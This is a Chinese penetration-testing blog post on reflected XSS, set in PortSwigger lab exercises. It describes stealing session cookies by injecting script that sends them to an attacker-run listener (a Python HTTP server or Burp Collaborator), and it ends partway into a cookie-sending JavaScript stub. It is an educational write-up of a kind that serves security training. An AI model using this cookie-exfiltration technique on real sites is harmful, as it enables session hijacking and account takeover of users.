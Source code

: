 ```yaml
---
title: "反射性 XSS 知解 123"
author: Neal
tags: [reflection xss,xss]
keywords: [xss,web安全,渗透测试]
categories: [web安全]
date: "2020-01-04" 
---
```


跨站脚本攻击（Cross-Site Scripting），为了避免与 CSS 混淆，一般简称为 XSS。XSS 作为一种典型的主要可以分为 3 种：

* 反射型 XSS
* 存储型 XSS
* DOM 型 XSS

关于这 3 种 XSS 类型的区别，在这就不展开了，本文主要讲解 XSS 漏洞的利用场景以及如何测试反射型 XSS，当然反射型 XSS 漏洞的测试和其它 XSS 漏洞类型的测试存在很多共同之处的。通常来说，通过 XSS 漏洞攻击者可以在受害者机器上执行任何脚本的话，包括：

* 可以执行受害者可以执行的任何操作
* 可以浏览受害者可以浏览的任何内容
* 可以修改受害者可以修改的任何信息
* 可以通过最初的受害者与应用中其他用户交互，从而发起对其他用户的攻击

不过值得注意的是，反射型 XSS 总漏洞利用过程中也会遇到较多的障碍，经常可能会遇到很多限制：

* cookie 设置为 httponly，无法通过 JS 直接操控 cookie
* 用户输入的内容被进行过滤或者编码
* 受害者可能并没有登录应用，或者应用用户会话与特定的因素有绑定关系，比如 IP 地址或者 MAC 地址，这种情况比较少见

## 典型利用场景

XSS 的利用场景其实是五花八门的，可以说只要你敢想，搞不好你就可以做得到。这里，我们可以选择两个最典型的利用场景进行讲解。在这里我主要使用 PortSwigger 的应用安全学院里面的 lab 进行讲解。

### 盗取 cookie

通过 XSS 漏洞盗取 cookie 可以说是最典型的利用场景了。不过现在随着 HttpOnly 的广泛应用，这一利用场景也产生了一些限制。但是 HttpOnly 也并不能完全保证 XSS 漏洞的防范，因为 HttpOnly 理论上应该覆盖所有的敏感 cookie，如果有一处没有覆盖到，就有被攻击的可能性。另外一方面，通过结合 CORS 也有突破限制的可能性。还有一个实际情况是，仍然有很多应用并没有使用 HttpOnly，本节也主要是针对这一情形的具体利用。

假设有一个博客平台，目前我们已经发现博文的评论处存在存储型 XSS 漏洞。那么如果其它用户打开这一篇博文，就可以通过这个漏洞让这名用户执行任意 JS 脚本，基本上就可以进行任何操作。如果这一名用户是管理员的话，那么危害性就更大，理论上这个管理用在这个博客可以执行的任何操作，攻击者都可以实现。这个攻击场景主要分为三步：

1. 攻击者创建一个 Web 服务，需要保证受害者和这个服务之间是连通的。
2. 注入 XSS 的 payload，实现通过 JS 获取受害者 cookie，并发送给攻击者创建的服务
3. 攻击者通过获取的 cookie 则可以成为应用的合法用户并执行任何操作

创建 web 服务非常简单，可以使用 python 命令既可以创建服务，`python -m SimpleHTTPServer 80`。这样就可以指定一个监听 80 端口的 web 服务。其实 Burp 提供了一个非常实用的利用功能，通过 Burp Collobrator Client 就可以创建一个开放在外网的 web 服务，这样如果你在日常测试中，就无须自己准备一个带有固定 IP 的服务器来创建服务了。

![3ExZJH.png](https://s2.ax1x.com/2020/02/19/3ExZJH.png)

![3Exlef.png](https://s2.ax1x.com/2020/02/19/3Exlef.png)

进入到 Collobrator Client，点击 Copy to clipborad 就可以将服务地址复制到剪切板。我们可以使用 curl 来进行测试：

![3tuMAU.gif](https://s2.ax1x.com/2020/02/25/3tuMAU.gif)

我们可以看到在 client 中可以看到 DNS 请求以及相应的 HTTP 请求，这样通过 Collobrator Client 就不需要在外网自己的服务器下搭建服务。让我们继续重现上面的利用过程，首先我们可以先创建漏洞利用的 JS 脚本：

```javascript
function sendCookie() {
    var server = "";
    var xhr = new XMLHttpRequest();
    xhr.send()
}




